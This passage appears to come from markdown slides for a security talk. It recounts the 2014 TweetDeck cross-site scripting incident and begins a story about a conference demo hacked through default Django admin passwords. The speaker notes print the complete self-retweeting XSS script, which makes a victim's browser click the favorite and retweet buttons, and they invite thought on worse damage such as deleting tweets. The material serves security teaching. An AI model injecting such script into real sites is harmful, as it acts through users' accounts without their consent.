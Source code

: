 
&lt;script class="xss">

$('.xss').parents().eq(1).find('a').eq(1).click();

$('[data-action=retweet]').click();

alert('XSS in Tweetdeck');

&lt;/script><img src="https://abs.twimg.com/emoji/v1/72x72/2665.png" style="border: none; top: 30px; position: relative;">

Note:
- Uses jQuery to find the retweet button and click it and to favorite the tweet (go to the parents and find the first
 child)

---

<img src="http://zdnet1.cbsistatic.com/hub/i/r/2014/10/02/b1ac71c2-49e6-11e4-b6a0-d4ae52e95e57/resize/770x578/66b184f0ae55a656be043dd2e4e8361a/tweetdeck-hacked.png">


Note:
- Cross site scripting
- Ask attendees what _further_ damage the JS could have done.
- Delete all a user's tweets

---
# XSS

### Any Questions?

---

## A hacked talk

### Asheesh Laroia & Karen Rustad

Note:
- Asheesh was talking at PyCon 2014 about setting up a server 
- Used Nate Aune's version of the Django polls tutorial (on Github)

---

<img src="http://www.mit.edu/~asheesh/sec-talk/basic-polls-app.png">

Note:

The Django admin site was enabled, and whatever default users and passwords Nate had used, that's what I was using, too.

So then it was crystal clear. My "friend" must have decided to go to the admin site and change the poll to
 increase the lulz factor of the talk.

---